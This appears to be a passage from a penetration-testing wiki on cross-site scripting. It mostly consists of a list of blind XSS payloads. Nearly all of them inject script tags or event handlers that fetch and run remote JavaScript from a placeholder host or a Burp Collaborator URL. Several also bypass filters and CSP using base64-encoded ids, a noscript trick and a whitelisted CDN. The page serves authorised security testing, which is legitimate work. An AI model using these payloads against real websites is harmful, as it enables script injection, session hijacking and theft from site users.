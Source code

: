 ### Abusing Service Workers

{% content-ref url="abusing-service-workers.md" %}
[abusing-service-workers.md](abusing-service-workers.md)
{% endcontent-ref %}

### Accessing Shadow DOM

{% content-ref url="shadow-dom.md" %}
[shadow-dom.md](shadow-dom.md)
{% endcontent-ref %}

### Polyglots

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss_polyglots.txt" %}

### Blind XSS payloads

You can also use: [https://xsshunter.com/](https://xsshunter.com)

```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')"> 

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
```